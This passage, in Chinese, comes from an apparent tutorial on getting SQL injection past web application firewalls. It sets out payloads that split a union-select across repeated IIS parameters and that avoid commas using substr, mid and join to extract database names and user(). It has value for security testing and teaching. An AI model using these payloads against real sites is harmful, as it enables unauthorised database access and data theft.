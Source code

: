 ![](./image/0929.jpeg)  
在中间件中，如果WAF只检测了第一个或最后一个参数，利用中间件特性正好取与WAF相反的参数，即可成功绕过。  
以IIS为例，一般的sql注入语句是 union select 1，2，3，4  将sql语句转换为以下格式：  
```sql
Inject=union/*&inject=*/select/*&inject=*/1&inject=2&inject=3&inject=4

#最终在IIS中读取到的参数值如下：
Inject=union/*, */select/*, */1,2,3,4
```

## 0x10 利用 substr 截取字符串进行逗号绕过
目前，有些防注入脚本会对逗号进行拦截，但是常规注入中还要包含逗号，所以有以下几个不使用逗号进行注入的方式，利用substr字符串截取函数进行绕过是常用方法。  
select(substr(database() from 1 for 1)); 查询当前库第一个字符  
查询 m 等于 select(substr(database() from 1 for 1))页面返回正常  
select * from users where id=1 and 'm'=(select(substr(database() from 1 for 1)));  
可以进一步优化 m 换成 hex 0x6D 这样就避免了单引号：  
select * from users where id=1 and 0x6D=(select(substr(database() from 1 for 1)));  

## 0x11 利用 mid 截取字符串进行逗号绕过
mid函数和substr函数作用相同，如果substr函数被拦截或者过滤，可以使用这个函数代替。  
```sql
select mid(database() from 1 for 1);   
select * from users where id=1 and 'm'=(select(mid(database() from 1 for 1)));
select * from users where id=1 and 0x6D=(select(mid(database() from 1 for 1)));
```

## 0x12 利用 join连接 进行逗号绕过
使用join可以连接两个表。  
union select 1,2  等价于 union select * from (select 1)a join (select 2)b 此处a 和 b分别是表的别名。
```sql
select * from users where id=-1 union select 1,2,3,4;
select * from users where id=-1 union select * from (select 1)a join (select 2)b join(select 3)c join(select 4)d;
select * from users where id=-1 union select * from (select 1)a join (select 2)b join(select user())c join(select 4)d;
```
以上利用join连接并没有使用逗号，从而可以绕过WAF对逗号的拦截。
```bash
mysql> select user,password from users where user_id='-1' union select * from (select 1)a join (select 2)b;
+------+----------+
```